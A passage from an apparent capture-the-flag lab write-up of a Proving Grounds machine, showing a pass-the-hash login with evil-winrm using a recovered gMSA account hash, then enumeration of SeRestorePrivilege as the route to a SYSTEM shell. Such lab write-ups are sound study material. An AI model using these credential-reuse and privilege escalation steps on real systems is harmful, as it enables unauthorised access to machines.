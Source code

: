 ![](Images/Pasted%20image%2020221012215649.png)
#GMSApasswordReader.exe
#rc4_hmac

- A winrm login session as user svc_apache$ was acquired when we type the following command.

evil-winrm -i 192.168.81.165 -u svc_apache$ -H 4283B392D3647F3F26D614EE3AB9A80C

![image](https://github.com/Bsal13/Offensive-Security-Proving-Grounds-Boxes/assets/90739944/3d000ba6-198f-478a-ac41-6c88c1f5b3a1)

---

# Privilege Escalation
## Local Enumeration

After gaining access to the svc_apache account, we discovered that the SeRestorePrivilege was enabled. We followed the privilege escalation steps, which involved creating a new service and running a command to get a cmd session as NT Authority\System.


- We discover that SeRestorePrivilege is enabled when we type the following command.

whoami /priv

![](Images/Pasted%20image%2020221012220215.png)
#SeRestorePrivilegeEnabledPrivelegeEscalation

